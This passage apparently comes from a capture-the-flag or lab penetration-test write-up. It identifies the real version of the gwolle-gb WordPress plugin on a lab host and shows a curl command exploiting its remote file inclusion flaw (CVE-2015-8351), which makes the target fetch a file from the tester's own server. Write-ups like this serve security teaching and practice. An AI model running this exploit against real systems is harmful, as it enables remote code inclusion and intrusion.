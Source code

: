    ![image-20201105205754983](.Report.assets/image-20201105205754983.png)

4. The plugin gwolle-gb was showing version 2.3.10 in the scan, but examining the scan's source showed the author had modified the changelog file to trick scans, so the actual version was 1.5.3: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

   ![image-20201105205840394](.Report.assets/image-20201105205840394.png)

5. This version of gwolle-gb has a remote file inclusion vulnerable (CVE CVE-2015-8351) which I was able to verify by visiting this URL and seeing the target contact my webserver, but I noticed it was appending 'wp-load.php' to the end of the URL:

   ```bash
   curl http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.37/test.txt
   ```

   ![image-20201105210348515](.Report.assets/image-20201105210348515.png)
